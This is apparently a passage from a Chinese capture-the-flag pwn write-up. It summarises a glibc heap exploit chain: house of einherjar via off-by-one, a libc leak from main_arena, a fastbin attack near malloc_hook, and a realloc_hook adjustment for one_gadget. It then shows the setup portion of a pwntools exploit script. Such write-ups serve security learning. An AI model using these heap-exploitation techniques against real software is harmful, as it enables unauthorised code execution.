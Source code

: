 house of einherjar, off by one, unlink check, fastbin attack, realloc_hook to banance stack, one_gadget

## 思路

通过house of einherjar实现堆合并,然后通过unsorted bin特性分割堆块,打印获取main_arena + 88地址,通过fastbin attack 打入 malloc_hook - 0x23处,通过 malloc_hook来实现Onegaget,realloc_hook调整execve第二个参数



## 利用

### 准备

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan
# Team  : D0g3

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'

#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "timu"
libFile  = "./libc.so.6"
libFile  = '/lib/x86_64-linux-gnu/libc.so.6'

remoteIp = "0.0.0.0"
remotePort = 0

LOCAL = 1
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, data):
	sla('Your choice :', str(1))
	sla('Size:', str(size))
	sa('Data:', data)

def rm(idx):
	sla('Your choice :', str(2))
	sla('Index:', str(idx))
```